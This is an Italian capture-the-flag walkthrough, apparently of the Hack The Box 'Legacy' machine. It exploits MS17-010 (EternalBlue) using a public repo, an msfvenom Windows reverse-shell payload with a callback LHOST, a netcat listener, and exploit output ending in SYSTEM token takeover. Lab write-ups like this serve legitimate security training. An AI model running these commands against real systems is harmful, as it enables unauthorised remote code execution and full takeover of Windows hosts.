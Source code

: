 ```basg
           Raw packets sent: 6 (240B) | Rcvd: 3 (128B)
```


Abbiamo due vulnerabilità [[Port 139 Netbios#^084e1c| MS08-067 (netapi)]] e [[Port 139 Netbios#^53cb4b| MS17-010 (Eternalblue)]] 

# EXPLOITATION

## **MS17-010 

^dfefd1

Dopo una breve ricerca troviamo questo articolo, che spiega grosso modo l'exploit
https://ethicalhackingguru.com/how-to-exploit-ms17-010-eternal-blue-without-metasploit/

Questa repo è quella aggiornata la scarichiamo  
git clone https://github.com/c1ph3rm4st3r/MS17-010_CVE-2017-0143 ^a32b2b

Creiamo il nostro exploit

```bash
┌──(root㉿kali)-[/home/kali/htb/legacy/MS17-010_CVE-2017-0143]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.21 LPORT=443 -f exe -o ms17-010.exe   
```

Ci mettiamo in ascolto sulla porta 443

```bash
┌──(root㉿kali)-[/home/kali/htb/legacy]
└─# nc -lnvp 443                
listening on [any] 443 ...
```

>FIXIT: lo scirpit send_and execute.py è sato sviluppato in python2.7 e ci mancano alcune librerie che aggiungiamo 
  con i seguenti comandi 
  cd MS17-010_CVE-2017-0143/
  sudo python2.7 get-pip.py
  pip2.7 install --upgrade setuptools
  python2.7 -m pip install impacket

Una volta pronti possiamo lanciare il nostro exploit

```bash
┌──(root㉿kali)-[/home/kali/htb/legacy/MS17-010_CVE-2017-0143]
└─# python2.7 send_and_execute.py 10.10.10.4 ms17-010.exe
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x860243e8
SESSION: 0xe224df58
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1798558
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe17985f8
overwriting token UserAndGroups
```